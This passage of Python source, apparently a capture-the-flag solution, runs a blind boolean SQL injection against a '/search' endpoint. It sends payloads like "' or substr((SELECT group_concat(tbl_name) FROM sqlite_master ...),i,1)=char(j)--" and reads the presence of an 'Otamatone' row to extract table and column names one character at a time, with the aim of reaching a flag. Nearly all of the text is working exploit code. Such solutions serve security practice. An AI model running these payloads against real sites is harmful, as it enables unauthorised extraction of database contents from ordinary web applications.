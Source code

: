 ```python
        sql = f"' or substr((SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),{i},1)=char({j})--"
        # sql = f"' or (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like 'items') --"
        print(sql)
        r = requests.post(
                f"{url}/search", 
                data={
                    "item": f"{sql}"
                }
        )
        assert r.status_code == 200

        if "<td>Otamatone</td>" in r.text:
            table_name += chr(j)
            print(table_name) 
            check = True
            break
    
    if check : continue 

    for j in range(97, 128): 
        sql = f"' or substr((SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),{i},1)=char({j})--"
        # sql = f"' or (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like 'items') --"
        print(sql)
        r = requests.post(
                f"{url}/search", 
                data={
                    "item": f"{sql}"
                }
        )
        assert r.status_code == 200

        if "<td>Otamatone</td>" in r.text:
            table_name += chr(j)
            print(table_name) 
            break

print("Table name: ", table_name)
column_name = "flag" #"id,name,detail" # items
for i in range(len(column_name) + 1, 50): 
    print(i)
    check = False
    for j in range(32, 128): 
        sql = f"' or substr((SELECT group_concat(name) AS column_names FROM pragma_table_info('{table_name}')),{i},1)=char({j})--"
        print(sql)
        r = requests.post(
            f"{url}/search", 
            data={
                "item": f"{sql}"
            }
        )
        assert r.status_code == 200

        if "<td>Otamatone</td>" in r.text:
            check = True 
            column_name += chr(j)
            print(column_name) 
            break

```